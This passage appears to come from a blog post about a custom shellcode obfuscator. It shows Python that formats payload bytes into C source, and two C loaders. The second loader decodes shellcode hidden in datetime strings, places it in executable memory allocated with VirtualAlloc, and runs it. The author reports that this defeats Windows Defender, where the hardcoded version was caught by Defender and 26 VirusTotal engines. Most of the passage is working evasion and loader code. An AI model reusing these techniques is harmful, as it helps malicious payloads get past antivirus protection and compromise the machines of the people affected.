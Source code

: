 ```c
formatted_shellcode = ''.join([f"\\x{byte:02x}" for byte in original])
formatted_shellcode = formatted_shellcode.replace('"', '\\"')

formatted_shellcode = formatted_shellcode.replace('"', '\\"')
shellcode_str_len = len(formatted_shellcode) + 1

# ========= Use f-string template =========
c_code = f"""#define _CRT_SECURE_NO_WARNINGS
... more c formatted code...
char shellcode_str[{shellcode_str_len}] = "{formatted_shellcode}";
printf("[+] Shellcode string: %s\\n", shellcode_str);

void (*run)() = (void(*)())shellcode_str;
run();

return 0;
```
After running my python code, I immediately got notified by Windows defender and the executable got deleted:

![](/posts/customshellcodeobfuscator/shellcode_hardcoded_wd.png)  

Also uploading to VT to get a detection rate, we can see it got detected by 26 engines, which is really bad:  

![](/posts/customshellcodeobfuscator/VT_hardcoded_shellcode.png)  

### Parsing the shellcode from datetime strings
Now it is time to actually test my shellcode obfuscator instead of hardcoding the shellcode. I will be using the following code to load the shellcode as it gets decoded:  
```c
size_t recovered_len = sizeof(recovered);
printf("unsigned char shellcode[] = {{\\n");
for (size_t i = 0; i < recovered_len; i++) {{
    printf("0x%02X, ", recovered[i]);
    // if ((i + 1) % 16 == 0) printf("\\n");
}}
printf("}};\\n");

void *shellcode = VirtualAlloc(NULL, recovered_len,
                            MEM_COMMIT | MEM_RESERVE,
                            PAGE_EXECUTE_READWRITE);

if (!shellcode) {{
    printf("VirtualAlloc failed\\n");
    return 1;
}}

memcpy(shellcode, recovered, recovered_len);
((void(*)())shellcode)();
    
return 0;
```
Here, the shellcode is not hardcoded but is stored inside `recovered[]` as the datetime strings get parsed and decoded. Then, we VAlloc and run it.  
We can see that Windows Defender is in a deep sleep state:  
